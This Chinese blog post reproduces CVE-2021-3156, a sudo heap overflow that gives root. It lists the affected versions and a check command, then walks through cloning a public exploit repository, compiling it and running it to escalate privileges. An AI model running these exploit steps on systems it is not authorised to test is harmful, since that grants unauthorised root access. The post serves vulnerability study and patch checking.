

# CVE-2021-3156 漏洞复现 附带 提权 exp - 誉津 - 博客园

> 原文：[`www.cnblogs.com/yujin2020/p/14377503.html`](https://www.cnblogs.com/yujin2020/p/14377503.html)

# CVE-2021-3156 漏洞复现

**简介**

2021 年 1 月 26 日，Linux 安全工具 sudo 被发现严重的基于堆缓冲区溢出漏洞。利用这一漏洞，攻击者无需知道用户密码，一样可以获得 root 权限，并且是在默认配置下。此漏洞已分配为 CVE-2021-3156，危险等级评分为 7 分。

当 sudo 通过-s 或-i 命令行选项在 shell 模式下运行命令时，它将在命令参数中使用反斜杠转义特殊字符。但使用-s 或-i 标志运行 sudoedit 时，实际上并未进行转义，从而可能导致缓冲区溢出。因此只要存在 sudoers 文件（通常是/etc/sudoers），攻击者就可以使用本地普通用户利用 sudo 获得系统 root 权限。研究人员利用该漏洞在多个 Linux 发行版上成功获得了完整的 root 权限，包括 Ubuntu 20.04（sudo 1.8.31）、Debian 10（sudo 1.8.27）和 Fedora 33（sudo 1.9.2），并且 sudo 支持的其他操作系统和 Linux 发行版也很容易受到攻击。

## 漏洞影响范围

**受影响版本**

*   Sudo 1.8.2 – 1.8.31p2
*   Sudo 1.9.0 – 1.9.5p1

**不受影响版本**

sudo =>1.9.5p2

## 漏洞复现

查看 Linux 及 sudo 版本

```
lsb_release -a
sudo -V 
```


简单测试漏洞是否存在

```
sudoedit -s / 
```

如果返回以 sudoedit:开头的错误，则当前系统可能存在安全风险；

不受影响的系统将显示以 usage:开头的错误。


下载 exp

```
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156 
```


编译 exp

```
make 
```


添加执行权限

```
chmod a+x sudo-hax-me-a-sandwich 
```


exp 提权测试

```
./sudo-hax-me-a-sandwich 0 
```



# 参考

[1] [`github.com/blasty/CVE-2021-3156`](https://github.com/blasty/CVE-2021-3156)